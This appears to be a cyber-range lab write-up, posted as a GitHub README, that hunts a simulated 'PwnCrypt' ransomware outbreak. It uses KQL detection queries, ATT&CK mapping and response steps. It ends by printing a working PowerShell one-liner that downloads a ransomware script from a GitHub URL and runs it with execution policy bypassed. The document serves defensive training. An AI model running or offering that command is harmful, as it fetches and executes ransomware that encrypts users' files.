 
---

## **🎯 Incident Response Plan: Zero-Day Ransomware (PwnCrypt) Outbreak**  

![image (11)](https://github.com/user-attachments/assets/abe54490-9d72-416b-8e9c-ac8746484da3)

### **Scenario**  
A new ransomware strain, **PwnCrypt**, has emerged. It utilizes a PowerShell-based payload to encrypt files, appending `.pwncrypt` to filenames (e.g., `hello.txt → hello.pwncrypt.txt`). The payload is downloaded using `Invoke-WebRequest` via PowerShell and targets specific directories like `C:\Users\Public\Desktop`. The CISO has raised concerns, and immediate investigation is required.  
 
## Platforms and Languages Leveraged
- Microsoft Sentinel
- Windows 10 Virtual Machines (Microsoft Azure)
- EDR Platform: Microsoft Defender for Endpoint
- Kusto Query Language (KQL)
---

### **1️⃣ Preparation**  
📌 **Goal:** Develop a hypothesis based on threat intelligence and organizational gaps.  
- The organization's immature security program (e.g., no user training) may have allowed ransomware into the network.  
- Use known IoCs, such as `.pwncrypt` file extensions, to guide the investigation.  

🔎 **Hypothesis:** Could PwnCrypt have spread laterally across the network?  

---

### **2️⃣ Data Collection**  
📌 **Goal:** Gather logs and evidence from endpoints, file systems, and network traffic.  

#### 🖥️ **Suspicious PowerShell Command Query:**  
```kql
DeviceProcessEvents
| where ProcessCommandLine has "Invoke-WebRequest" and ProcessCommandLine has "pwncrypt.ps1"
| project Timestamp, DeviceName, InitiatingProcessParentFileName, ProcessCommandLine, AccountName
```
![Screenshot 2025-01-09 112931](https://github.com/user-attachments/assets/726cfa16-8617-410e-9805-c316b01a0606)


#### 🔄 **Trace Ransomware Execution:**  
```kql
DeviceProcessEvents
| where ProcessCommandLine has "C:\\programdata\\pwncrypt.ps1" or FileName == "powershell.exe"
| project Timestamp, DeviceName, InitiatingProcessFileName, ProcessCommandLine, AccountName, InitiatingProcessAccountName
```
![Screenshot 2025-01-09 112245](https://github.com/user-attachments/assets/d657757a-28a1-491e-a246-d94b0f720ea0)

#### 🌐 **Outbound Network Activity:**  
```kql
DeviceNetworkEvents
| where RemoteUrl has "githubusercontent.com"
| project Timestamp, DeviceName, RemoteIP, RemoteUrl, InitiatingProcessCommandLine, AccountName
```
![Screenshot 2025-01-09 114155](https://github.com/user-attachments/assets/3dad1d63-ddbf-4790-a3b4-e8853f253314)

---

### **3️⃣ Data Analysis**  
📌 **Goal:** Examine data for anomalies, patterns, and IoCs.  

🛑 **Indicators Found:**  
- **PowerShell Usage:** Execution of `pwncrypt.ps1` via `Invoke-WebRequest`.  
- **Outbound Traffic:** Connection to GitHub for payload download.  
- **File Events:** Creation of `.pwncrypt` files in user directories.  

🧠 **TTPs Mapped to MITRE ATT&CK Framework:**  
- **T1059.001**: Command and Scripting Interpreter (PowerShell).  
- **T1486**: Data Encrypted for Impact (Ransomware).  
- **T1105**: Ingress Tool Transfer (Downloading payloads).  
- **T1547**: Boot/Logon Autostart Execution (Persistence).  

---

### **4️⃣ Investigation**  
📌 **Goal:** Deep dive into findings and assess the threat's scope.  

#### 🔍 **Steps:**  
1. Check **DeviceFileEvents** for `.pwncrypt` file creation.  
2. Investigate process lineage in **DeviceProcessEvents** to identify the initial infection vector.  
3. Analyze account activity for potential compromise.  

---

### **5️⃣ Response**  
📌 **Goal:** Contain and mitigate confirmed threats.  

#### 🛡️ **Containment:**  
- 🚫 Disconnect affected devices from the network.  
- 🧱 Block known malicious IPs and domains.  

#### 🧹 **Eradication:**  
- Remove `pwncrypt.ps1` and terminate related processes.  
- Scan endpoints for persistence mechanisms (e.g., scheduled tasks).  

#### 🔄 **Recovery:**  
- Restore data from **clean backups**.  
- Verify integrity of restored systems.  

---

### **6️⃣ Documentation**  
📌 **Goal:** Record findings and actions taken.  

🗒️ **What to Document:**  
- Timeline of events.  
- IoCs identified (e.g., `.pwncrypt` files, GitHub URLs).  
- Steps for containment, eradication, and recovery.  
- Gaps in security posture and recommendations for improvement.  

---

### **7️⃣ Improvement**  
📌 **Goal:** Enhance the organization’s defenses against future incidents.  

#### 🚀 **Action Plan:**  
1. Deploy **endpoint protection policies**.  
2. Implement **user training** to identify phishing attempts.  
3. Strengthen **logging and monitoring** to detect suspicious behavior earlier.  

---

### **Ransomware Command Snapshot**  
⚠️ Example of how the ransomware script was executed:  
```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1' -OutFile 'C:\programdata\pwncrypt.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\pwncrypt.ps1
```

📅 **Incident Start Time:**  
- **Date:** Jan 09, 2025  
- **Time:** 9:45 AM  
- **IP:** 185.199.111.133  

---
